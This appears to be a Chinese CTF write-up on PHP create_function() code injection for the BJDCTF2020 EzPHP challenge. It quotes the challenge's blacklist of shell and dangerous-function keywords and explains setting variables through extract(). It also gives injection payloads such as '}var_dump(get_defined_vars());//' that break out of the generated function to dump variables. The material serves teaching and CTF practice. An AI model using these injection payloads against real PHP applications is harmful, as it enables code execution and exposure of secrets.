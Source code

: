 ## create_function()命令执行





```php
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
}
```



这里的重点是：

第五点的：

```php
extract($_GET["flag"]);
```

`extract()函数`作用是：将数组值 赋值给数组名同名的变量

我们可以通过这里去产生 `$code`、`$arg` 变量



```php
include "flag.php";
$code('', $arg); 
```

`$code('', $arg); ` 这一句十分重要

由于括号中使用的是逗号，我们一般的命令执行应该使用不了，参数不能控制。

了解到一种新的方法：`create_function()代码注入`

> 从`PHP 7.2.0`开始，`create_function()`被废弃

文章：https://www.cnblogs.com/-chenxs/p/11459374.html

`create_function($arg1,$arg2)`会创造一个匿名函数，

函数的参数部分由 `$arg1`指定

函数体由 `$arg2` 指定

例如：

```php
<?php
create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
?>
```

会创建以下匿名参数：

```php
function lambda($a,$b){
	return "ln($a) + ln($b) = " . log($a * $b);
}
```

我们可以在 $arg2 进行改动，实现代码注入

如果`$arg2 = }phpinfo();//`   可以执行`phpinfo()`函数

原因：首先 `}` 将匿名函数的大括号`}`闭合了，然后 `//` 将后面的大括号`}`给注释掉了

所以，这之间就可以写相应的代码了



由于这里过滤了很多东西，但是恰好引入了 `flag.php`，其中一定存在相应的flag变量

所以我们可以使用 `get_defined_vars()`函数：返回所有已定义变量组成的数组

然后使用 `var_dump()`进行输出

这样就可以知道有关flag的变量名了

```php
arg=}var_dump(get_defined_vars());//
```



### 例题：

#### [BJDCTF2020]EzPHP

